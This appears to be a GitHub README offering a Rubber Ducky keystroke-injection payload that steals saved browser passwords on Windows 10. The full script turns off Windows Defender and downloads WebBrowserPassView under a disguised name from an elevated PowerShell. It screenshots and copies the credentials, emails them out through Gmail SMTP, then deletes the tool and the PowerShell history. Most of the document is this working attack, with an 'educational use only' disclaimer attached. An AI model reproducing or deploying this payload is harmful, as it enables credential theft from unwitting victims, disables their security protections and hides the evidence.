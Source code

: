 # Web-Browser-Password-Grabber
Rubber ducky payload that downloads WebBrowserPasswordView file and screenshots / duplicates the passwords. Works for Windows 10.

Note:

Make sure to change all of the email placeholders to your email credentials or it will not work!

Feel free to toy around with the delay times as this might be too fast for some slow computers

This payload will only work IF:
  * The pc is running on windows 10
  * Windows Defender is disabled
  * There is no sophisticated antivirus installed.
 
 Runview:

This payload works by disabling windows defender, downloading an app that views all 
saved passwords on all browsers. The payload then screenshots the interface, and 
then copy-pastes all of the data. It then emails you all of the files that were created, 
removes powershell history & the payload, and then shut's down the pc.

**I AM NOT RESPONSIBLE FOR ANY MISUSE OF THIS PAYLOAD. IT'S USE IS FOR EDUCATIONAL AND TESTING USE ONLY. PLEASE DO NOT USE THIS IN ANY MALICIOUS WAYS!!!**

Payload:

```
DEFAULTDELAY 200
DELAY 500
GUI r
DELAY 200
ESCAPE
DELAY 200
TAB
DELAY 100
ENTER
DELAY 500
STRING virus & threat protection
DELAY 200
ENTER
DELAY 1200
TAB 
DELAY 100
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 500
ENTER
DELAY 500
SPACE 
DELAY 500
ALT y
DELAY 100
GUI r
DELAY 300
STRING powershell
DELAY 300
CTRL-SHIFT ENTER
DELAY 500
ALT y
DELAY 500
STRING cd $home
ENTER
STRING powershell (new-object System.Net.WebClient).DownloadFile('https://github.com/Mythaman/Web-Browser-Password-Grabber/raw/main/WebBrowserPassView.exe','WebBrowserHandler.exe')
ENTER
DELAY 1000
STRING start 'WebBrowserHandler.exe'-WindowStyle maximized
ENTER
DELAY 500
WINDOWS PRINTSCREEN
DELAY 200
CTRL a
DELAY 200
CTRL c
DELAY 500
GUI r
DELAY 500
STRING powershell
DELAY 200
CTRL-SHIFT ENTER
DELAY 1000
ALT y
DELAY 500
STRING cd $home
ENTER
STRING Stop-Process -Name 'WebBrowserHandler'
ENTER
STRING Remove-Item 'WebBrowserHandler.exe'
ENTER
STRING Remove-MpPreference -ExclusionPath C:\Users
ENTER
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('YOUR-EMAIL-BEFORE-THE-@
SHIFT 2
STRING gmail.com', 'YOUR-EMAILS-PASSWORD');
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'YOUR-EMAIL-BEFORE-THE-@
SHIFT 2
STRING gmail.com'
ENTER
STRING $ReportEmail.To.Add('YOUR-EMAIL-BEFORE-THE-@
SHIFT 2
STRING gmail.com')
ENTER
STRING $ReportEmail.Subject = 'Passwords Successfully Logged. Data includes Copy-Paste of credentials & a screenshot aswell.'
ENTER
STRING $ReportEmail.Body = Get-Clipboard
ENTER
STRING cd $home\Pictures\Screenshots
ENTER
STRING $Latest = gci $home\Pictures\Screenshots | sort LastWriteTime | select -last 1
ENTER
STRING Rename-Item $Latest
ENTER
DELAY 200
STRING FileToSend.png
ENTER
DELAY 200
STRING $ReportEmail.Attachments.Add('$home\Pictures\Screenshots\FileToSend.png')
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
STRING Remove-Item (Get-PSreadlineOption).HistorySavePath
ENTER
STRING Restart-Computer
ENTER
```
